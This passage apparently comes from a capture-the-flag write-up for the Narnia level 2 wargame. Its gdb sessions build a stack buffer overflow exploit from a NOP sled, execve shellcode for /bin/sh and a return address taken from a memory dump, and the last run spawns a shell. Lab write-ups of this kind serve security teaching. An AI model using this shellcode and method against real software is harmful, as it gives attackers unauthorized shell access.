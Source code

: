 ```nasm
(gdb) set disassembly-flavor intel
(gdb) break *main+68
Breakpoint 1 at 0x804848f
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')

Breakpoint 1, 0x0804848f in main ()
(gdb) x/100x $esp+500
0xffffd784:	0x000036b2	0x0000000e	0x000036b2	0x00000017
0xffffd794:	0x00000001	0x00000019	0xffffd7cb	0x0000001a
0xffffd7a4:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd7b4:	0xffffd7db	0x00000000	0x00000000	0x00000000
0xffffd7c4:	0x00000000	0xa9000000	0x55fe0723	0x4a68d3c6
0xffffd7d4:	0xcc5d0b96	0x698947e8	0x00363836	0x00000000
0xffffd7e4:	0x00000000	0x00000000	0x616e2f00	0x61696e72
0xffffd7f4:	0x72616e2f	0x3261696e	0x90909000	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
0xffffd874:	0xc289c189	0x80cd0bb0	0xcd40c031	0x42424280
0xffffd884:	0x434c0042	0x4c4c415f	0x5f6e653d	0x552e5355
0xffffd894:	0x382d4654	0x5f534c00	0x4f4c4f43	0x723d5352
0xffffd8a4:	0x3a303d73	0x303d6964	0x34333b31	0x3d6e6c3a
0xffffd8b4:	0x333b3130	0x686d3a36	0x3a30303d	0x343d6970
0xffffd8c4:	0x33333b30	0x3d6f733a	0x333b3130	0x6f643a35
0xffffd8d4:	0x3b31303d	0x623a3533	0x30343d64	0x3b33333b
0xffffd8e4:	0x633a3130	0x30343d64	0x3b33333b	0x6f3a3130
0xffffd8f4:	0x30343d72	0x3b31333b	0x6d3a3130	0x30303d69
0xffffd904:	0x3d75733a	0x343b3733	0x67733a31	0x3b30333d
```

Here, I choose `0xffffd824` as it is in the middle of the *NOP-sled*. Let's try again with the return address :

```nasm
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x24\xd8\xff\xff"')

Breakpoint 1, 0x0804848f in main ()
(gdb) continue
Continuing.
process 21195 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```
